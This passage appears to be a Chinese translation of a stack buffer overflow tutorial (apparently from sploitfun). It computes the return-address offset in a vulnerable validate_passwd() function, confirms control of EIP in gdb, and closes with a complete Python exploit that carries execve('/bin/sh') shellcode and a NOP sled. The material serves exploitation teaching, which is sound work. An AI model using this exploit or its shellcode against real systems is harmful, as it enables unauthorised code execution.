 step 2：目标缓冲区的偏移量是多少？

让我们找出来自缓冲区“passwd_buf”的偏移返回地址。分解并绘制了 validate_passwd() 的堆栈布局后，现在让我们尝试查找偏移位置信息，堆栈布局显示返回地址位于缓冲区“passwd_buf”的偏移量（0x18）处。 0x18 计算如下：

```
0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4
```

在这里

```
0xb is ‘passwd_buf’ size
0x1 is ‘passwd_len’ size
0x4 is alignment space
0x4 is edi
0x4 is caller’s EBP
```

因此，用户输入“A” * 24 + “B” * 4 + “C” * 233 形式的密码，用“A”覆盖 passwd_buf、passwd_len、对齐空间、edi 和调用者的 ebp，用“BBBB”覆盖返回地址和剩余的空间用 C 填充。

```bash
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

上面的输出表明攻击者可以控制返回地址。位于堆栈位置 (0xbffff1fc) 的返回地址被“BBBB”覆盖。有了这些信息，让我们编写一个漏洞利用程序来实现任意代码执行。

```python
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

arg1 = "sploitfun"

#Stack address where shellcode is copied.
ret_addr = 0xbffff274

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",num)

# arg2 = Junk + RA + NOP's + Shellcode
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108

print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
```
